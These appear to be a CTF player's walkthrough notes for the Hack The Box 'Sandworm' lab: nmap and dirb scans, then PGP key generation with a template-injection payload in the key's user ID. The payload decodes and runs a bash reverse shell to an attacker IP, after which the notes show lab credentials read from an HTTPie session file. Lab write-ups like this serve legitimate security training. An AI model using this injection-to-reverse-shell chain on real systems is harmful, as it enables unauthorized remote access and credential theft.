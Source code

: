 └─$ nmap -sV -sC 10.10.11.218
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 04:55 EDT
Nmap scan report for 10.10.11.218
Host is up (0.77s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.02 seconds

at https://ssa.htb/guide/encrypt

[](https://ssa.htb/guide/encrypt)

dirb results
+ https://ssa.htb/about (CODE:200|SIZE:5584)                                                                     
+ https://ssa.htb/admin (CODE:302|SIZE:227)                                                                      
+ https://ssa.htb/contact (CODE:200|SIZE:3543)                                                                   
+ https://ssa.htb/guide (CODE:200|SIZE:9043)                                                                     
+ https://ssa.htb/login (CODE:200|SIZE:4392)                                                                     
+ https://ssa.htb/logout (CODE:302|SIZE:229)                                                                     
+ https://ssa.htb/pgp (CODE:200|SIZE:3187)                                                                       
+ https://ssa.htb/process (CODE:405|SIZE:153)  

so we know there is ssti in the key encryption for sandworm

but need understanding over PGP keys

https://github.com/atriox2510/pgp-pysuite.git

when we use this to generate the pgp key and then the signed text we are getting verified

──(kali㉿kali)-[~/pgp-pysuite]
└─$ cat keypgp_uwu.pub.asc 
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQENBGSlPkgBCADc1O0J9Ds4LG/c5+SuRmaSRHACRMqbyI/y/7MXm7AZjMF5rn0U
ZygZIao5z5FmD5Qj508tmlJpnEZGpQtXKV0JeTkeqs8kO+AEoHO5CFtUW7HgyHmn
xUzM1wDFzQZXAh5QjnNtK8MrnPSeD1Xx9qpA1h4Y56P9tBV0c+F3tQsviyMw8qNm
bWF6b24uY29tPokBTgQTAQoAOBYhBHadavRX2zp2k1VrTAbkbNHg8yIUBQJkpT5I
AhsvBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEAbkbNHg8yIU45sH/RBsIngj
wrZCPCZ7kc3si1fkSAATz7Dyt/9KtexEAopL7gf5rmml7lsR2aqamHCU5siWmBkX
7D67np7aJgcyu+F8TZ3vlJsIjsJdTACkNpxlfkgPInKwY9bgJHAEMx5IichkCbi0
N7TxRwuFg+hBywoIq1z/V8ZzCZI5cEzP33v9Tokmtt7QqLeMiky8IO29Jo5XMqud
5tCOTcGQgSxGgh+6zxhr4WRaENTuTuWnliT+KuYzE2ry2pfDZhXU/NlSkuGEdt/4
TehSn+76J+hGDdfD7wCrS3kp6sh5qZDDPVvSKethNsJiUCrhWGPA3ucoXyilcSPf
UxsF/ZT1OZrLJzU=
=b8zD
-----END PGP PUBLIC KEY BLOCK-----

┌──(kali㉿kali)-[~/pgp-pysuite]
└─$ python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

[+] Message signed successfully

-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

hello
-----BEGIN PGP SIGNATURE-----

iQEzBAEBCgAdFiEEdp1q9FfbOnaTVWtMBuRs0eDzIhQFAmSlQkwACgkQBuRs0eDz
WbqmSgFcO2ArBhr/dg4PUWfBDDlMlroZErClV1etKT5U
k46ooF5uyhYmqdAyPKQWGsaqDf3Ma2AgwO2chlUHguY4C1R7ApapPFwDiVgvopuZ
s8hpWrWXIMixaOVrL/9ZNn3SX/cGEEGK0rrLVuqDp1s8UqGosOE5p7Q9Kx5HmjdE
vMPC2pmXnGGt5jTNRLDyEwcIhyq/mCEQ0g0VqiGd6jReIjVx7Oon7D3odcVzUNQ/
MlcmsQJA7gRnGxhh/4cu+wkwmx0v6A==
=b+27
-----END PGP SIGNATURE-----

we will now try and change the uid

https://www.sobyte.net/post/2021-12/modify-gpg-uid-name/

base64 encoded shell

/bin/bash -i >& /dev/tcp/10.10.16.9/1234 0>&1
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx" | base64 -d | bash').read() }}`

python3 keygen.py -p kali -n "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx | base64 -d | bash').read() }}" -e alexa@amazon.com 

python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

this got me a shell

![](20230705064345.png)

atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ ls
ls
admin.json
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}

```
silentobserver@sandworm:/opt/tipnet/target/debug$ cat tipnet.d
/opt/tipnet/target/debug/tipnet: /opt/crates/logger/src/lib.rs /opt/tipnet/src/main.rs
```

